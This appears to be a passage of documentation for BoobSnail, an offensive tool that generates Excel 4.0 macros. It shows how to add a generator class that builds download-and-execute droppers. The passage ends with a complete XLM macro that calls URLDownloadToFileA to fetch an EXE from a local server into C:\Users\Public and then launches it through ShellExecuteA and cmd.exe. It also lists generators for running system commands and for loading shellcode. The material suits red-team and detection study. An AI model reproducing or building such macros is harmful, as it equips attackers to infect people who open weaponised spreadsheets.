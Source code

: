 In excel4lib/generator/__init__.py import generator package:

    from .download_execute import *

Create excel4lib/generator/download_execute/__init__.py file and import generator file:

    from .download_execute_generator import *

In boobsnail.py add your generator class in generators variable:

    generators = [Excel4NtDonutGenerator, Excel4ExecGenerator, Excel4DownloadExecuteGenerator]

List available generators in boobsnail (you should see newly created generator):

    python boobsnail.py
    (venv) D:\pentest2\Tools\python\Toolset\Generators\excel4_generator>python boobsnail.py
    ___.                ___.     _________             .__.__
    \_ |__   ____   ____\_ |__  /   _____/ ____ _____  |__|  |
     | __ \ /  _ \ /  _ \| __ \ \_____  \ /    \__  \ |  |  |
     | \_\ (  <_> |  <_> ) \_\ \/        \   |  \/ __ \|  |  |__
     |___  /\____/ \____/|___  /_______  /___|  (____  /__|____/
         \/                  \/        \/     \/     \/
         Author: @_mzer0 @stm_cyber
    Usage: boobsnail.py <generator>
    
    
Generators:

Excel4NtDonutGenerator - Port of EXCELntDonut tool written by joeleonjr: https://github.com/FortyNorthSecurity/EXCELntDonut
Excel4ExecGenerator - Generates Excel4 Macro that allows to run system command via Exec formula.
Excel4DownloadExecuteGenerator - Downloads and executes EXE file

Excel4DownloadExecuteGenerator class overrides two methods:

Excel4Generator.custom_args - allows adding custom command line arguments.
Excel4Generator.generate_macro - generates macro. So this is the place where we will write a macro.

First, we need to define command line arguments. Some of the arguments are predefined in Excel4Generator class. For sure we require the user to pass the URL from which the exe file should be downloaded. To do this add the following line in the custom_args function:

    self.args_parser.add_argument("--url", "-u", required=False, help="URL from which download EXE file")
    self.args_parser property is object of ArgumentParser class from argparse library.

Run generator with the following command:

    python boobsnail.py Excel4DownloadExecuteGenerator -h

You should see that the --url option has been added.
Now we can start writing a macro. Let's say that we want to write a generator for the following macro:

    exepath="C:\Users\Public\test.exe"
    =REGISTER("urlmon","URLDownloadToFileA","JJCCJJ","DOWNLOAD","",1,9)
    =DOWNLOAD(0,"http://127.0.0.1:8080/msg.exe",exepath,0,0)
    args=CONCATENATE("/c ",exepath)
    =REGISTER("Shell32","ShellExecuteA","JJCCCJJ","CMDRUN","",1,9)
    =CMDRUN(0,"open","C:\Windows\System32\cmd.exe",args,0,5)
